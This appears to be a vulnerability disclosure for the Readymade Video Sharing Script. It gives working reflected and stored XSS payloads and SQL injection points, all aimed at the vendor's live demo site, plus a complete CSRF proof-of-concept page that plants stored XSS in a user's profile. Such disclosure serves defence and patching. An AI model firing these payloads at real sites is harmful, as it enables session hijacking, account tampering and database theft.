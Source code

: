 ### Readymade Video Sharing Script- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss/)%3E123%3C123%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss1.png)

```
http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss3/)%3E123%3C123%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss2.png)


##### Stored-XSS 


```
http://www.smsemailmarketing.in/demo/videosharing/user-profile-edit.php
```

POST parameters:

```
------WebKitFormBoundaryb1Z9ur8DUtIWkCxA
Content-Disposition: form-data; name="fname"

lzx'"><svg/onload=alert(/xss2/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss3.png)


#### SQL Injection:

##### sqli1
```
http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli1.png)

##### sqli2

```
http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=321
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli2.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.smsemailmarketing.in\/demo\/videosharing\/user-profile-edit.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryb1Z9ur8DUtIWkCxA");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"fname\"\r\n" + 
          "\r\n" + 
          "lzx\'\"\x3e\x3csvg/onload=alert(/xss2/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"lname\"\r\n" + 
          "\r\n" + 
          "lzx\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"mobile\"\r\n" + 
          "\r\n" + 
          "1311144111\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"country\"\r\n" + 
          "\r\n" + 
          "17\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"zip_code\"\r\n" + 
          "\r\n" + 
          "123123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr1\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr2\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"profile_image\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Save Profile\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

